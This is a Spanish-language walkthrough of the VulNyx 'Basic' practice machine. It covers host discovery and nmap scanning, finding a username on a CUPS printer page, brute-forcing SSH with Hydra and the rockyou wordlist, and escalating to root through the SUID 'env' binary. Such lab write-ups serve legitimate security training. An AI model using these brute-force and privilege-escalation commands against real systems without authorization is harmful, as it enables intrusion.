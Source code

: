 Maquinas que vamos a utilizar **Kali Linux y Basic** [https://vulnyx.com/#basic](https://vulnyx.com/#basic)

  

```Bash
sudo arp-scan -I eth0 --localnet
```

![[Imagenes/image 58.png|image 58.png]]

  

```Bash
ping -c 1 10.0.3.22
```

![[Imagenes/image 1 47.png|image 1 47.png]]

  

```Bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.0.3.22
```

![[Imagenes/image 2 46.png|image 2 46.png]]

  

- Vamos a ver lo que esta corriendo por el **puerto 80**
    
    ![[Imagenes/image 3 45.png|image 3 45.png]]
    

  

- Miramos lo que corre atreves del **puerto 631**
    
    ![[Imagenes/image 4 43.png|image 4 43.png]]
    
- Vamos a husmear un poco y nos vamos a la **pestaña Printers** y vemos un posible nombre de usuario **dimitri**.
    
    ![[Imagenes/image 5 42.png|image 5 42.png]]
    
- En el **nmap** habíamos visto que estaba **abierto el puerto 22** del **SSH** . Vamos a intentar un **ataque de fuerza bruta** con **Hydra** aprovechando que tenemos un posible nombre de usuario.
    
    ```Bash
    hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://10.0.3.22
    ```
    
    ![[Imagenes/image 6 40.png|image 6 40.png]]
    
    Nos a sacado un resultado de contraseña: **mememe.**
    
      
    
- Nos conectamos vía SSH.
    
    ```Bash
    ssh dimitri@10.0.3.22
    ```
    
    ![[Imagenes/image 7 38.png|image 7 38.png]]
    

- Buscamos binarios vulnerables.
    
    `find / -perm -4000 2>/dev/null`
    
    ![[Imagenes/image 8 36.png|image 8 36.png]]
    

- Nos vamos a la web [https://gtfobins.github.io/](https://gtfobins.github.io/) y miramos aquellos binarios que no son comunes y podamos pensar que son vulnerable a un ataque SUID. En nuestro caso seria `env`.
    
    ![[Imagenes/image 9 33.png|image 9 33.png]]
    
    ![[Imagenes/image 10 29.png|image 10 29.png]]
    
    ![[Imagenes/image 11 23.png|image 11 23.png]]
    
      
    
- Deberíamos probar ambos comandos para ver cual funciona. Pero vamos a probar `./env /bin/sh -p`
    
    Antes de probarlo debemos tener en cuenta que nosotros no estamos situados dentro de la ruta absoluta **del archivo “env”** `**/usr/bin/**` **deberemos quitar el punto que del inicio del comando quedando así** `**env /bin/sh -p**`
    
    `**env /bin/sh -p**`
    
    ![[Imagenes/image 12 23.png|image 12 23.png]]